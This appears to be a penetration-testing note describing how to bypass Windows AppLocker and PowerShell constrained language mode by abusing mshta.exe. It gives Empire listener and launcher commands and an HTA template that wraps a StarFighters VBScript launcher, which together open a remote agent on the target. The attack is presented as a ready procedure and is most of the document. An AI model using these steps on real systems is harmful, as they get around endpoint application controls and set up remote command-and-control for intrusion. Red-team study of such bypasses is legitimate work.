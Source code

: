 # Bypassing Applocker and Powershell contstrained language mode

[https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/)

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated.

```
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

